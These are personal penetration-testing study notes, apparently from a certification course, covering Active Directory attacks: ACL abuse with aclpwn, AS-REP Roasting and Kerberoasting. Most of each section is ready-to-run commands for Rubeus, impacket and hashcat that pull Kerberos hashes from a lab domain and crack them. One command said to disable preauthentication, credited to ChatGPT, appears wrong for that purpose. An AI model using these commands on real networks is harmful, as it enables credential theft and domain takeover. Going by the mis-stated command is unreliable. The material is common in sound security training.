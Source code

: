 https://www.n00py.io/2020/12/alternative-ways-to-pass-the-hash-pth/

- Try `aclpwn.py` (interacts directly with BloodHound) or `Invoke-ACLPwn` to automate discovery and pwnage of ACLs in Active Directory that are unsafely configured
- Account Operators can modify memberships of "non-protected" groups
	- Can add user to `Exchange Windows Permissions` or `Exchange Trusted Subsystem` groups (take over MS Exchange Server)
- Check out Pass-The-Ticket

- **Adalanche** as a BloodHound alternative
	- Getting started: https://www.a6n.co.uk/2024/01/adalanche-adds-security-visualised.html

## Attacks on AD Auth
AS-REP Roasting: for specific users
Kerberoasting: for specific service accounts (SPNs)
Silver Tickets: same as Kerberoasting but no need to crack (we are forging our own Service Tickets)
DC Synchronization: hashes for any account in AD but must be Domain Admin, Enterprise Admin, or Administrator group

### AS-REP Roasting
> **Prerequisite**: Target must not enforce Kerberos preauthentication 
1) (Optional) enumerate
	1) Windows: Powerview's `Get-DomainUser -PreauthNotRequired`
	2) Kali: `impacket-GetNPUsers -dc-ip 192.168.50.70 corp.com/beet`
2) Attack
	1) Windows: `.\Rubeus.exe asreproast /nowrap /outfile:asreproast.hashes` 
		1) (this actually also enumerates for you)
	2) Kali: `impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/beet`
3) Crack: `sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule -o hashes.asreproast.cracked`

Extra: **Let's assume that we are conducting an assessment in which we cannot identify any AD users with the account option Do not require Kerberos preauthentication enabled. While enumerating, we notice that we have GenericWrite or GenericAll permissions on another AD user account. Using these permissions, we could reset their passwords, but this would lock out the user from accessing the account. We could also leverage these permissions to modify the User Account Control value of the user to not require Kerberos preauthentication. This attack is known as Targeted AS-REP Roasting. Notably, we should reset the User Account Control value of the user once we've obtained the hash.**
	- `Set-ADUser -Identity "username" -KerberosEncryptionType None` ChatGPT
	- `Get-ADUser -Identity "username" -Properties DoesNotRequirePreAuth` to confirm (chatGPT)

---
### Kerberoasting
> **Prerequisite**: Target must be a service account; aka, have a Service Principal Name (SPN) associated with the account
1) Enumeration is done automatically in attack-phase
2) Attack
	1) Windows: `.\Rubeus.exe kerberoast /outfile:hashes.kerberoast`
		1) Doesn't need password for domain user
	2) Kali: `sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/beet -o kerberoast.hashes`
		1) If `impacket-GetUserSPNs` throws the error "**KRB_AP_ERR_SKEW(Clock skew too great)**," we need to synchronize the time of the Kali machine with the domain controller. We can use `ntpdate` or `rdate` to do so.
3) Crack
	1) `sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`

---